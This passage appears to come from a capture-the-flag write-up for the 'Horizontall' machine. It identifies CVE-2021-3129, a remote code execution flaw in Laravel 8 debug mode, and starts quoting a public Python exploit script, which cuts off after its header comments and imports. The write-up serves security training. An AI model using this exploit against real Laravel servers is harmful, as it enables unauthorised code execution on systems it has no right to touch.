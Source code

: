 <img src = "/assets/images/img-horizontall/captura38.png">
</p>

And if we search with ***searchsploit*** we can see that there are exploits and vulnerabilities for laravel version 8 and one of the most critical. And btw this vunlerability is registered as ***CVE-2021-3129***, and this vunlerability affects the function ***file_get_contents()*** and ***file_put_contents()*** of the component debug mode in laravel.

<p align = "center">
<img src = "/assets/images/img-horizontall/captura39.png">
</p>

The exploit:

```python
# Exploit Title: Laravel 8.4.2 debug mode - Remote code execution
# Date: 1.14.2021
# Exploit Author: SunCSR Team
# Vendor Homepage: https://laravel.com/
# References:
# https://www.ambionics.io/blog/laravel-debug-rce
# https://viblo.asia/p/6J3ZgN8PKmB
# Version: <= 8.4.2
# Tested on: Ubuntu 18.04 + nginx + php 7.4.3
# Github POC: https://github.com/khanhnv-2091/laravel-8.4.2-rce


#!/usr/bin/env python3

import requests, sys, re, os

header={
    "Accept": "application/json"
```